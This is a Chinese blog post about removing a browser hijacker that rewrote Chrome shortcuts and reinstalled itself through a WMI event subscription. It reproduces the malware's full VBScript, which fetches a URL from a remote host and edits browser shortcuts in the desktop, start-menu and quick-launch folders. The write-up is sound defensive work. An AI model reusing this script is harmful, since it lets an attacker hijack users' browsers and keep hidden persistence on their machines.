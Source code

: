 ```yaml
---
title: 修复恶意篡改浏览器快捷方式
categories:
- tech
---
```


记录一次删除恶意插件的过程。

---

<!-- more -->

下软件的时候明显发现不对劲，提示系统有漏洞，要下载什么补丁，虽然马上关了，但是发现过了一会又弹出来几个外国网站。最后发现是有一个chrome扩展在自动加载，路径在`C:\Users\ADMINI~1\AppData\Local\kemgadeojglibflomicgnfeopkdfflnk`

然后每次打开chome的时候都会打开一个网站，查看快捷方式发现被改了，目标 `"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe"  --load-extension="C:\Users\ADMINI~1\AppData\Local\kemgadeojglibflomicgnfeopkdfflnk" http://fanli90.cn/`

每次删掉过了一段时间又会重新加上，这才认定——系统被蛀了~！

用ProcessMonitor监视发现：

![](/assets/upload/2017-01-19/20170119103430.jpg)

有系统进程在修改快捷方式！

安装后打开WMI event viewer，点击左上角register for events，弹出Connect to namespace框，填入“**root\subscription**”（root\CIMV2），确定，filter改为Consumers，出现下图：

![](/assets/upload/2017-01-19/20170119103105.jpg)

虽然看不懂什么意思，但是注意到中间的script我就意识到，这种情况一般都是由脚本自动执行产生的，于是点进去查看，果然发现：

![](/assets/upload/2017-01-19/20170119103120.jpg)

将ScriptText复制出来查看后发现罪魁祸首：

```
Dim xmlHttp:Dim homePageUrl:Set xmlHttp = CreateObject("MSXML2.XMLHTTP"):xmlHttp.open "GET", "http://bbtbfr.pw/GetHPHost?"&Timer(), False:On Error Resume Next:xmlHttp.send:if xmlHttp.status = 200 then:homePageUrl= xmlHttp.responseText:end if:Dim objFS:Set objFS = CreateObject("Scripting.FileSystemObject"):On Error Resume Next : link = homePageUrl: linkChrome = " --load-extension=""C:\Users\ADMINI~1\AppData\Local\kemgadeojglibflomicgnfeopkdfflnk"" " + homePageUrl:browsers = Array("IEXPLORE.EXE", "firefox.exe", "360SE.exe", "SogouExplorer.exe", "opera.exe", "Safari.exe", "Maxthon.exe", "TTraveler.exe", "TheWorld.exe", "baidubrowser.exe", "liebao.exe", "QQBrowser.exe","chrome.exe","360chrome.exe"):ChromeBrowsers = Array("chrome.exe","360chrome.exe"):Set BrowserDic = CreateObject("scripting.dictionary"):For Each browser In browsers:BrowserDic.Add LCase(browser), browser:Next:Set ChromeBrowserDic = CreateObject("scripting.dictionary"):For Each ChromeBrowser In ChromeBrowsers:ChromeBrowserDic.Add LCase(ChromeBrowser), ChromeBrowsers:Next:Dim FoldersDic(12):Set WshShell = CreateObject("Wscript.Shell"):FoldersDic(0) = "C:\Users\Public\Desktop":FoldersDic(1) = "C:\ProgramData\Microsoft\Windows\Start Menu":FoldersDic(2) = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs":FoldersDic(3) = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup":FoldersDic(4) = "C:\Users\Administrator\Desktop":FoldersDic(5) = "C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu":FoldersDic(6) = "C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs":FoldersDic(7) = "C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup":FoldersDic(8) = "C:\Users\Administrator\AppData\Roaming":FoldersDic(9) = "C:\Users\Administrator\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch":FoldersDic(10) = "C:\Users\Administrator\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\User Pinned\StartMenu":FoldersDic(11) = "C:\Users\Administrator\AppData\Roaming\Microsoft\Internet Explorer\Quick Launch\User Pinned\TaskBar":Set fso = CreateObject("Scripting.Filesystemobject"):For i = 0 To UBound(FoldersDic):For Each file In fso.GetFolder(FoldersDic(i)).Files:If LCase(fso.GetExtensionName(file.Path)) = "lnk" Then:set oShellLink = WshShell.CreateShortcut(file.Path):path = oShellLink.TargetPath:name = fso.GetBaseName(path) & "." & fso.GetExtensionName(path):If BrowserDic.Exists(LCase(name)) Then:If ChromeBrowserDic.Exists(LCase(name)) Then:oShellLink.Arguments = linkChrome:else:oShellLink.Arguments = link:End if:If file.Attributes And 1 Then:file.Attributes = file.Attributes - 1:End If:oShellLink.Save:End If:End If:Next:Next:createobject("wscript.shell").run "cmd /c taskkill /f /im scrcons.exe", 0
```

于是将ActiveScriptEventConsumer.Name="ASEC"整个删除。整个世界安静了。


**参考**

[http://blog.sina.com.cn/s/blog_8627ac3c010195ri.html](http://blog.sina.com.cn/s/blog_8627ac3c010195ri.html)  
[http://blog.csdn.net/scgump/article/details/50698443](http://blog.csdn.net/scgump/article/details/50698443)  
[http://www.05935.com/bc/180282/](http://www.05935.com/bc/180282/)